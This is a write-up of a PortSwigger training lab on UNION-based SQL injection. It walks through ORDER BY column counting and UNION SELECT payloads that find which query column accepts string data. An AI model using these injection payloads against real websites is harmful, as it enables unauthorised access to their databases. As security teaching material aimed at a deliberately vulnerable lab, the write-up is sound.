

# Write-up: SQL injection UNION attack, finding a column containing text   
  
Lab-link: https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text  
Difficulty: Practitioner  
Status: Solved  

## Lab description  
 

## Objectives  
Identify a column that is compatible with string data using UNION-based SQL injection

## Background  
### UNION-based SQL injection  
`UNION` combines the results of two `SELECT` queries into a single result set  
The queries before and after `UNION` must have the same number of columns and compatible data types

### Finding the number of columns  
A common technique is using  
```text
ORDER BY 1
ORDER BY 2
ORDER BY 3
...
ORDER BY n
```  
to determine the number of columns that are being returned by the query  

## Steps
### 1. Establish a baseline  
Firstly, I chose the Pets category  
In Burp Suite, I intercepted this request and sent it to Repeater  
  

### 2. Determine the number of columns
By injecting the following payloads one by one: 
```text
' ORDER BY 1--
...
```
I got that there were 3 columns  

### 3. Confirm UNION works
Since there were 3 columns, the `UNION SELECT` statement must also return 3 columns.  
I injected:  
```text
'+UNION+SELECT+NULL,NULL,NULL--
```

### 4. Identify the column compatible with string data  
The lab provided the string `xNNySU`. I tested each column by replacing `NULL` with this string one by one:  
```text
'+UNION+SELECT+'xNNySU',NULL,NULL--
```
```text
'+UNION+SELECT+NULL,'xNNySU',NULL--
```
```text
'+UNION+SELECT+NULL,NULL,'xNNySU'--
```
The payload targeting the second column returned `200 OK`, while the other payloads resulted in an error. Therefore, the second column is compatible with string data.  

And the lab was solved   


